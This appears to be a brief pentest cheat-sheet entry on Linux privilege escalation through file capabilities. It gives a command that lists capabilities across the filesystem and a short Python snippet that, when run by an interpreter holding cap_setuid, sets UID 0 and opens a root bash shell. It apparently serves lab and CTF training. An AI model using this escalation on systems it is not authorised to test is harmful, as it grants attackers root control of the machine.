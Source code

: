 ## CAP
Getcap is a privilege  escalation tool to identify any getcap privileges for programs, files or services. 

	getcap -r / 2>/dev/null


##### CAP_SETUID
If you get an cap_setid this is a great sign. if this is associated with a scripting language or the like this will allow the scrip to run at any UID such as root (0) 

Here is a video on how this works:
https://attackdefense.com/challengedetailsnoauth?cid=1384

>import os
os.setuid(0)
os.system("/bin/bash")


Then simply run the command. 

Retunr to [[-README]]
